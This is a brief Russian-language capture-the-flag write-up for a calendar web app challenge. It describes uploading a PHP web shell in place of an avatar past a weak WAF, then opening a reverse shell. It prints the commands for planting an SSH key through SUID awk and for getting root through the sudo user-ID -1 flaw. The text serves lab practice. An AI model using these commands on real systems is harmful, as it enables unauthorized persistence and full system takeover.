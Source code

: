 # Описание 
Наконец-то написал свой календарик под ключ!

# Решение 
Регаем пользователя

<img width="1138" alt="image" src="https://github.com/user-attachments/assets/c7940fac-4f21-4af3-8f04-7fc3d3d52173">


Подгружаем при помощи ссылки php-шелл на место аватарки, байпаснув несложный WAF 
<img width="665" alt="image" src="https://github.com/user-attachments/assets/c6424340-edea-43e7-9d47-de48604a145b">

После получения php, пробрасываем reverse-shell

Через suid awk записываем ssh ключ в директорию пользователя 
```
mawk 'BEGIN { print "ssh-rsa <key>" > "/home/sakura/.ssh/authorized_keys" }'
```

Повышение до рута через уязвимую версию sudo:
```
sudo -u#-1 /bin/bash
```
